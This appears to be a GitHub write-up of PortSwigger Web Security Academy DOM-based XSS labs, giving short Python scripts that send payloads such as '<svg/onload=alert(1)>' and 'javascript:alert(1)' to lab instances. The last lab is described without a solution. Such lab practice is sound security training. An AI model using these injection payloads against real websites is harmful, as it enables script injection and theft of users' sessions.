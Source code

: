 # Portswigger

## XSS

### [DOM-based XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based)

#### Lab: DOM XSS in `document.write` sink using source `location.search`

_This lab contains a_ [_DOM-based cross-site scripting_](https://portswigger.net/web-security/cross-site-scripting/dom-based) _vulnerability in the search query tracking functionality. It uses the JavaScript `document.write` function, which writes data out to the page. The `document.write` function is called with data from `location.search`, which you can control using the website URL._

_To solve this lab, perform a_ [_cross-site scripting_](https://portswigger.net/web-security/cross-site-scripting) _attack that calls the `alert` function_

```python
import requests

url = "https://0a1e0067044d34a8c2a44bb8000700ed.web-security-academy.net"

session = requests.Session()

params = {
    "search" : f'"><svg/onload=alert(1)>'
}
r = session.get(url = url , params= params)

if "Congratulations, you solved the lab!" in r.text:
    print("solved")
```

#### Lab: DOM XSS in `innerHTML` sink using source `location.search`

_This lab contains a_ [_DOM-based cross-site scripting_](https://portswigger.net/web-security/cross-site-scripting/dom-based) _vulnerability in the search blog functionality. It uses an `innerHTML` assignment, which changes the HTML contents of a `div` element, using data from `location.search`._

_To solve this lab, perform a_ [_cross-site scripting_](https://portswigger.net/web-security/cross-site-scripting) _attack that calls the `alert` function._

```python
import requests

url = "https://0a9900f9047f2860c1167170009f00d1.web-security-academy.net/"

session = requests.Session()

params = {
    "search" : f'<svg/onload=alert(1)>'
}
r = session.get(url = url , params= params)

if "Congratulations, you solved the lab!" in r.text:
    print("solved")
```

#### Lab: DOM XSS in jQuery anchor `href` attribute sink using `location.search` source

_This lab contains a_ [_DOM-based cross-site scripting_](https://portswigger.net/web-security/cross-site-scripting/dom-based) _vulnerability in the submit feedback page. It uses the jQuery library's `$` selector function to find an anchor element, and changes its `href` attribute using data from `location.search`._

_To solve this lab, make the "back" link alert `document.cookie`._[\
](https://twitter.com/share?url=https%3a%2f%2fportswigger.net%2fweb-security%2fcross-site-scripting%2fdom-based%2flab-jquery-href-attribute-sink\&text=Lab%3a+DOM+XSS+in+jQuery+anchor+href+attribute+sink+using+location.search+source+%7c+Web+Security+Academy%0A)

```python
import requests

url = "https://0a1300e80334a707c1d5865600da009e.web-security-academy.net"

session = requests.Session()

params = {
    "returnPath" : f'javascript:alert(1)'
}
r = session.get(url = url , params= params)

if "Congratulations, you solved the lab!" in r.text:
    print("solved")
```

#### Lab: DOM XSS in jQuery selector sink using a hashchange event

_This lab contains a_ [_DOM-based cross-site scripting_](https://portswigger.net/web-security/cross-site-scripting/dom-based) _vulnerability on the home page. It uses jQuery's `$()` selector function to auto-scroll to a given post, whose title is passed via the `location.hash` property._

_To solve the lab, deliver an exploit to the victim that calls the `print()` function in their browser._
